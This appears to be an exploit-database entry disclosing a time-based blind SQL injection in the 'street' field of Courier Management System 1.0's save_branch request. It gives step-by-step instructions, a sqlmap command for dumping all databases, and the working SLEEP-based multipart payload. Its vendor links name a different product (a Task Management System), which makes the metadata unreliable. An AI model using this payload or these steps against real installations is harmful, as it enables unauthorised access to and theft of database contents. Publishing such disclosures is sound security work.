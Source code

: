 # Exploit Title: Courier Management System 1.0 - 'MULTIPART street ' SQL Injection
## Exploit Author: Zhaiyi (Zeo)
## Date: 2020-12-11
## Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
## Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
## Affected Version: Version 1
## Category: Web Application

Step 1. Log into application with credentials

Step 2. Click on Branch

Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch

Step 4. Fill the form  , click on save

Step 5. Capture the request of the ""/ajax.php?action=save_branch"" page in burpsute

Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "

Step 7. This will inject successfully and you will have an information disclosure of all databases contents


```
---
Parameter: MULTIPART street ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="id"


-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="street"

11111111111' AND (SELECT 8687 FROM (SELECT(SLEEP(5)))XZFt) AND 'OQNu'='OQNu
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="city"

111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="state"

1111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="zip_code"

11111111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="country"

1111111111111
-----------------------------12317926718649295872939507245
Content-Disposition: form-data; name="contact"

111111111
-----------------------------12317926718649295872939507245--
---
```


![image-20201214111450137](https://gitee.com/godzeo/blogimg/raw/master/img/20201214111450.png)

